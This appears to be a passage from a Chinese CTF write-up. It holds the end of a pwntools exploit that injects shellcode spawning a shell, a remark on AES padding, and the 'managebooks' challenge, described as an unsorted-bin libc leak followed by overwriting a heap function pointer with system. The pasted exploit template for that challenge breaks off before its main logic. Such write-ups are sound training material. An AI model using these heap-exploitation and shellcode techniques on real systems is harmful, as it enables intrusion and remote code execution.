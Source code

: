 ```python
time.sleep(3)
sl(p64(0)*2+p64(rbp)+p64(rbp+0x10)+asm(shellcraft.sh()))


ia()
```

AES在分组的时候将每一个明文块长度分为128bit，也就是16字节，不满足16字节则需要进行填充

### managebooks

被学长秒了

调了一下exp，大概思路是unsorted bin泄露libc，再修改堆上的函数指针为system函数

贴一个**@PTT0**学长的exp

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='managebooks'
libc_name='libc.so.6'


libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('',)



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla(">> ",str(num))

```